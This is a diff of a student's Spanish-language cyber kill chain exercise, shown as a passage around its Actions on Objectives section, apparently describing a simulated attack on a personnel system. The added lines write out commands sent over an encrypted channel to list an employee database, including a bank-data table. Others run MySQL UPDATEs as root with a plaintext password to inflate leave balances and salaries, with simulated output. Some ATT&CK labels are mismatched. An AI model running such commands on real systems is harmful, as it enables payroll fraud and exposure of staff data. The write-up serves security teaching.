

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around one of its changes. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -852,10 +852,8 @@ resultado:
 
 
 ## Actions on Objectives
-- TA0009 – Collection
-
-    Recopilación de Información mediante Canal Cifrado
-    - T1082 – System Information Discovery
+     Recopilación de Información mediante Canal Cifrado
+     - T1082 – System Information Discovery
       Descubrimiento de estructura mediante canal cifrado:
       ```text
 
@@ -869,7 +867,72 @@ resultado:
       /var/www/html/siper/config/database.conf
       /var/www/html/siper/backups/backup_20240901.sql
       ```
+    - T1005 – Data from Local System
+       Análisis de la base de datos mediante cifrado:
+       ```text
+       # Verificar base de datos usando canal seguro
+       ejecutar_comando_cifrado 'ls -la /var/www/html/siper/database/ && file /var/www/html/siper/database/empleados.db'
+
+       ```
+       Respuesta descifrada:
+       ```text
+       -rw-r--r-- 1 www-data www-data 2457600 Sep 10 14:30 empleados.db
+       /var/www/html/siper/database/empleados.db: SQLite 3.x database
+       ```
+     - T1213 – Data from Information Repositories
+        Análisis de estructura de tablas cifrado:
+        ```text
+        # Examinar tablas mediante canal seguro
+        ejecutar_comando_cifrado 'sqlite3 /var/www/html/siper/database/empleados.db .tables'
+        ```
+        Respuesta:
+        ```text
+        empleados
+        licencias
+        datos_bancarios
+        usuarios
+        configuracion
+        ```
+     - TA0009 – Collection
+      Recolección de información sensible mediante cifrado:
+      ```text
+      # Contar registros de empleados por canal seguro
+      ejecutar_comando_cifrado 'sqlite3 /var/www/html/siper/database/empleados.db "SELECT COUNT(*) FROM empleados"'
+      ```
+      Resultado descifrado: 5342
+
+     - T1484 – Domain Policy Modification
+      Modificación de licencias mediante canal seguro:
+      ```text
+       # Modificar licencias usando MySQL a través del canal cifrado
+       COMANDO='echo "UPDATE licencias SET dias_disponibles = dias_disponibles + 15 WHERE tipo = \"ordinaria\";" | mysql -u root -pVialidad2024 siper_db'
+       ejecutar_comando_cifrado "$COMANDO"
+      ```
+      Verificación segura:
+      ```text
+      ejecutar_comando_cifrado 'echo "SELECT COUNT(*) FROM licencias WHERE tipo = \"ordinaria\" AND dias_disponibles > 30;" | mysql -u root -pVialidad2024 siper_db'
+
+      ```
+
+      Resultado descifrado: 247
+
+     - T1482 – Domain Trust Discovery
+      Alteración salarial mediante canal seguro:
+
+
+      ```text
+         # Modificar salarios por canal cifrado
+        COMANDO='echo "UPDATE empleados SET categoria = categoria - 2, salario = salario * 1.28 WHERE antiguedad > 5 LIMIT 34;" | mysql -u root -pVialidad2024 siper_db'
+        ejecutar_comando_cifrado "$COMANDO"
+
+      ```
+      Verificación:
+      ```text
+      ejecutar_comando_cifrado 'echo "SELECT COUNT(*) FROM empleados WHERE salario > (SELECT AVG(salario)*1.2 FROM empleados);" | mysql -u root -pVialidad2024 siper_db'
+      ```
+      Resultado descifrado: 34
 
 
 
+     - TA0010 – Exfiltration
 
````
Also changed, not shown: other parts of CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md (+19 -1 lines).
